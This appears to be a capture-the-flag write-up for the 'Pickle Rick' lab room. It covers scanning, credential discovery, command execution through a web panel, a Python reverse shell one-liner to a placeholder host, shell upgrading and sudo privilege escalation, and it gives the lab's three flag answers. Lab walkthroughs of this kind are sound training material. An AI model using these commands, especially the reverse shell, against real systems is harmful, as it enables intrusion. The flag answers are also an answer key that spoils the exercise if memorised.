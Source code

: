 # Pickle Rick

```json
export ip=10.10.58.138
```

```
first step is to always run the nmap scans

nmap -p 0-9999 -oN scans/nmap_high_ports $ip
nmap -sC -sV -oN scans/nmap_normal $ip
```
```
looks like we have apache [80](webserver), ftp [21] and ssh [2222]running
```
```
we can see theres a robots.txt file which contains
"Wubbalubbadubdub" possibly a password?
```
```
always run gobuster after seeing apache is running and open

gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt +x php,sh,txt,cgi,html,js,css,py
```

```
if we view the page source of the webserver we can see rick has left a username for us
"Note to self, remember username!

    Username: R1ckRul3s"
```
```
if we go to /login.php we can try the username and password we possibly found
great it worked and it looks like we can execute commands from here
```
```
if we run ls we get 
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

and it seems using cat is disabled
we need to find a way around that
lets try using "nl Sup3rS3cretPickl3Ingred.txt"
"mr. meeseek hair"
perfect
```
# 1. What is the first ingredient Rick needs?
```
answer: mr. meeseek hair 
```
```
lets see what clue.txt is
"Look around the file system for the other ingredient."
it looks like we can only run one liners however using the ; sign we can run multiple commands in one line

if we view the page source it looks like we have a base64 encoded string lets decode it
nothing useful there either
```
```
suppose we should try getting a shell however netcat is disabled
python on the other hand is working so lets get a python reverse shell
```
```json
export RHOST="YOUR_IP";export RPORT=YOUR_PORT;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

nc -lvnp YOUR_PORT (listener)
```
```
we now have a shell lets go look around
if we go to /home/rick and cat "second ingredient"
we find our second ingredient 
"1 jerry tear"
```
# 2. What is the second ingredient Rick needs?
```
answer: 1 jerry tear
```
```
im going to assume the last ingredient is probably in /root or needs root access so lets upgrade our shell so we can privesc to root
```
```json
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z 
stty raw -echo
fg
```
always the first thing to do when your looking to privesc is to run sudo -l
in this cane we can sudo without a password on everything
so lets try running sudo "/bin/bash"
```
```
great we are now root! we can see that with id, whoami etc
so lets look around for the final ingredient
```
```
the final ingredient is /root/3rd.txt which we can use cat or nl to see what it is
1 fleeb juice
```
```
# 3. What is the third ingredient Rick needs?
```
answer: 1 fleeb juice
```

```json
Congratulations on completeing the room !
```

